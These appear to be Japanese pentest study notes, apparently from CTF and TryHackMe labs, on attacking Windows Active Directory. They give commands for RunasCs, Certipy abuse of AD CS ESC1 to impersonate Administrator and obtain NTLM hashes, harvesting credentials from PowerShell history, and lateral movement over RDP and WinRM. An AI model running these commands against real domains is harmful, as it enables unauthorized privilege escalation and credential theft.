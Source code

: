使い方
svc_ldapとして「cmd /c whoami /all」を実行する
```sh
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> .\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "cmd /c whoami /all"
```
## Certpy
- Active Directory Certificate Services（AD CS）に対する攻撃や調査を行えるツール
- AD CS：Active Directory Certificate Services。Windowsドメイン環境に証明書を発行・管理するサービス。
- Windowsドメイン環境で証明書ベースの権限昇格や認証回避などの脆弱性（たとえば ESC1〜ESC8）を検出・悪用するために使う
	- ESC1〜ESC8
		- 証明書関連の典型的な脆弱性パターン
		- たとえば ESC1 は「ユーザーが自分で証明書を要求でき、証明書で任意のユーザーを偽装できる」問題
脆弱な証明書の調査
```sh
certipy-ad find -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -target <DOMAIN> -dc-ip <DC-IP> -ns <DC-IP>  -enabled -vulnerable -stdout
```

脆弱な証明書の取得
```sh
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local -sid 'xxxxxx'
```
- ESC1 は SID が無いと PKINIT を弾かれる → 以下のコマンドのKDC_ERROR_CLIENT_NOT_TRUSTED の原因になる

NTLMハッシュのリクエスト
- 取得できたら、smbexec.pyなどで使える
```sh
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.133.131
```
使用例 : [[Ledger#Certpy]]

## windows版`.bash_history`
- windows10からlinuxで言うところの.bash_historyがデフォルトで有効になった
- ここに平文の認証情報が書いてあることもあるかも

```sh
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## 特権アクセス先の利用
### RDP (Remote Desktop Protocol)
GUIベースでリモートホストに接続し操作
- アクセス権確認 (PowerView)
```powershell
Get-NetLocalGroupMember -ComputerName <TARGET_HOST> -GroupName "Remote Desktop Users"
```
- 接続 (xfreerdp)
```shell
xfreerdp /v:<TARGET_IP> /u:<USER> /p:<PASSWORD> /d:<DOMAIN>
```
### WinRM (Windows Remote Management) / evil-winrm
PowerShellを使用してリモートホストを管理・操作`evil-winrm`は特にペンテストで有用なクライアント
- アクセス権確認 (PowerView)
```powershell
Get-NetLocalGroupMember -ComputerName <TARGET_HOST> -GroupName "Remote Management Users"
```
- 接続 (evil-winrm)
```shell
evil-winrm -i <TARGET_IP> -u <USER> -p '<PASSWORD>'
```
### SQL Server (管理者権限)
sysadmin権限を持つアカウントでSQL Serverに接続し、OSコマンド実行などを試行